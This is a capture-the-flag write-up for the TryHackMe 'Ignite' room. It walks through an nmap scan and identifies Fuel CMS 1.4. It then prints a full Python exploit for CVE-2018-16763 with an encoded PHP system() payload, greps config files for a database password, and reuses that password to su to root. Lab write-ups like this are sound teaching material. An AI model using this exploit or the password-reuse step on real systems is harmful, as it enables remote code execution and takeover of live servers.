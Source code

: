 > Thu 31 Jul 2025
> al3xx

![[s1.png|350]]

# Ignite [Link](https://tryhackme.com/room/ignite)
## 1. Reconnaissance
### TCP Scan

```bash
sudo nmap -sCV -p- -T4 -oN nmap.txt 10.10.141.45
```

| Port | Service | Version                        |
| ---- | ------- | ------------------------------ |
| 80   | http    | Apache httpd 2.4.18 ((Ubuntu)) |

Based on the scan results, we can observe that `port 80` is open and running an **Apache HTTP server**

## 2. Enumeration

### Web Enumeration

![[Write-ups/TryHackMe/Linux/img/s6.png]]

The website reveals it's running **Fuel CMS v1.4**.

**Vulnerability Identified:**
- **CVE:** CVE-2018-16763
- **Description:** Remote Code Execution.

While exploring, I also discovered a directory:

## 3. Exploitation

I used the following proof-of-concept (PoC) to exploit CVE-2018-16763:


```python
import requests
import sys
from urllib.parse import quote
import argparse

def prep_payload(url, cmd):
    # Ensure URL ends with /
    if not url.endswith('/'):
        url += '/'
    return url + 'fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27' + quote(cmd) + '%27%29%2b%27'

def send_payload(payload, proxy=None, timeout=10):
    try:
        proxies = {"http": proxy, "https": proxy} if proxy else None
        r = requests.get(payload, proxies=proxies, timeout=timeout, verify=False)
        r.raise_for_status()  # Raise exception for bad status codes
        return r.text
    except requests.exceptions.RequestException as e:
        print(f"[-] Error sending payload: {e}")
        return None

def start_up():
    parser = argparse.ArgumentParser(
        formatter_class=argparse.RawTextHelpFormatter,
        epilog='Example: python ' + sys.argv[0] + ' -u http://vulnsite.com -c whoami\nCreated By: @shoamshilo 2021')
    parser.add_argument('-u', '--url', required=True, help='The url for the fuel cms application.')
    parser.add_argument('-c', '--cmd', required=True, help='The command that you want to run.')
    parser.add_argument('--proxy', help='Add a proxy passthrough.')
    parser.add_argument('--timeout', type=int, default=10, help='Request timeout in seconds.')
    return parser.parse_args()

if __name__ == '__main__':
    args = start_up()
    print('[+] Preparing the payload')
    payload = prep_payload(args.url, args.cmd)
    print(f'[+] Sending payload to: {payload}')
    response = send_payload(payload, args.proxy, args.timeout)

    if response:
        print('[+] Payload executed successfully')
        print(response)
    else:
        print('[-] Failed to execute payload')

```

**🏁 First Flag**
While running commands via RCE, I discovered: `/home/www-data/flag.txt`

## 3.Credential Discovery
```bash
cat * | grep password // shows an alert in the admin backend if this is the admin password | ['password'] The password used to connect to the database 'password' => 'mememe'
```

## 4.Privilege Escalation
```bash
su root
Password: mememe
```

after login as root I discovered: `/root/root.txt`

